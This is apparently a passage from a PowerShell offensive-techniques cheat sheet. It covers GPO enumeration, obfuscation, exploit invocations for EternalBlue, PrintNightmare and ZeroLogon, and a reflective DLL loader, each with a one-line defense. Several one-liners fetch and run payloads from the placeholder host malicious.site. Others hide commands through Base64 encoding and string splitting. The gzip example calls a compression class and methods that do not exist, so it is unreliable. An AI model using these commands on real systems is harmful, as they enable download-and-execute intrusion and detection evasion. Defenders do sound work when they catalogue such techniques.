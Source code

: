 #### **GPO Abuse**  
```powershell  
Get-GPO -All | % { Get-GPOReport -Guid $_.Id -ReportType Html }  
```  
- **Defense**: Audit GPO permissions.  

---

### **8. Obfuscation**  
#### **Base64 Encoding**  
```powershell  
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('malicious code')); powershell.exe -EncodedCommand $encoded  
```  
- **Defense**: Enable script block logging.  

#### **String Splitting**  
```powershell  
$cmd = 'Invoke-'+'Expression'; & $cmd (New-Object Net.WebClient).DownloadString('http://malicious.site/payload')  
```  
- **Defense**: Use **Constrained Language Mode**.  

#### **Gzip Compression**  
```powershell  
$compressed = [IO.Compression.Gzip]::Compress([Text.Encoding]::UTF8.GetBytes('malicious code')); iex ([IO.Compression.Gzip]::Decompress($compressed))  
```  
- **Defense**: Deploy AMSI and EDR.  

---

### **9. Exploitation**  
#### **EternalBlue Exploit**  
```powershell  
Invoke-MS17-010 -ComputerName TARGET -Command "cmd.exe /c malware.exe"  
```  
- **Defense**: Patch MS17-010 and disable SMBv1.  

#### **PrintNightmare**  
```powershell  
Invoke-Nightmare -DriverName "EvilDriver" -DLL C:\malware.dll  
```  
- **Defense**: Disable Print Spooler service.  

#### **ZeroLogon**  
```powershell  
Invoke-ZeroLogon -Target DC01  
```  
- **Defense**: Apply CVE-2020-1472 patch.  

---

### **10. Custom Tools**  
#### **Reflective DLL Loader**  
```powershell  
$bytes = (Invoke-WebRequest -Uri "http://malicious.site/malware.dll").Content; [System.Reflection.Assembly]::Load($bytes).EntryPoint.Invoke($null, $null)  
```  
- **Defense**: Block unsigned DLL loads.  
